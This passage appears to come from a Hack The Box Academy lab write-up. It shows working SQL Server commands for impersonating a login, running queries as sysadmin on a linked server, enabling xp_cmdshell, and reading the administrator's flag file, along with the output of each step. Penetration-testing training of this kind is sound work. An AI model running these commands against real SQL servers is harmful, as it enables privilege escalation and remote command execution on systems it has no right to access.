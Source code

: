 **Discovery**: 
- `WINSRV02\SQLEXPRESS` (remote server)
- `LOCAL.TEST.LINKED.SRV` (linked server)

### User Impersonation & Linked Server Access
```sql
-- HTB Academy john user impersonation and linked server sysadmin check
EXECUTE AS LOGIN = 'john'
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [LOCAL.TEST.LINKED.SRV]
GO

WINSRV02\SQLEXPRESS Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64)
        Sep 24 2019 13:48:23
        Copyright (C) 2019 Microsoft Corporation
        Express Edition (64-bit) on Windows Server 2019 Standard 10.0 <X64> (Build 17763: ) (Hypervisor)
        testadmin 1

(1 rows affected)
```

**Critical Discovery**: 
- User `john` can access `LOCAL.TEST.LINKED.SRV`
- On linked server, `john` has `sysadmin` privileges as `testadmin`
- Target server: `WINSRV02\SQLEXPRESS`

---

## 💻 Phase 7: xp_cmdshell Enablement & Command Execution

### xp_cmdshell Configuration
```sql
-- HTB Academy xp_cmdshell enablement on linked server
EXECUTE('EXECUTE sp_configure ''show advanced options'', 1;RECONFIGURE;EXECUTE sp_configure ''xp_cmdshell'', 1;RECONFIGURE') AT [LOCAL.TEST.LINKED.SRV]
GO

Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
```

**Success**: xp_cmdshell enabled on linked server for command execution

### Administrator Flag Extraction
```sql
-- HTB Academy administrator flag retrieval via xp_cmdshell
EXECUTE('xp_cmdshell ''more c:\users\administrator\desktop\flag.txt''') AT [LOCAL.TEST.LINKED.SRV]
GO

output
---------------------------------------------
HTB{46u$!n9_l!nk3d_$3rv3r$}
NULL

(2 rows affected)
```
